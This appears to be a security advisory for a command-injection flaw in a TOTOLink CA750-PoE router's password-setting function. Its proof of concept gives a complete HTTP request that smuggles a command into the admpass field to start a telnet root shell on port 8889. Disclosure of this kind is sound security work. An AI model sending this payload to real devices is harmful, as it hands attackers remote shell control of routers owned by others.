


# TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA750-PoE

Version:V6.2c.510

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `system.so` binary:

In `setPasswordCfg` function, `admuser、admpass` is directly passed by the attacker, so we can control the `admuser、admpass` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `admpass` as **`telnetd -l /bin/sh -p 8889`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.33
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 96
Origin: http://192.168.0.33
Connection: keep-alive
Referer: http://192.168.0.33/adm/password.asp?timestamp=1777255971316
Cookie: SESSION_ID=2:1777255848:2

{"topicurl":"setting/setPasswordCfg","admuser":"admin","admpass":"`telnetd -l /bin/sh -p 8889`"}
```


## Result

Get a shell!

<div  align="center"></div>
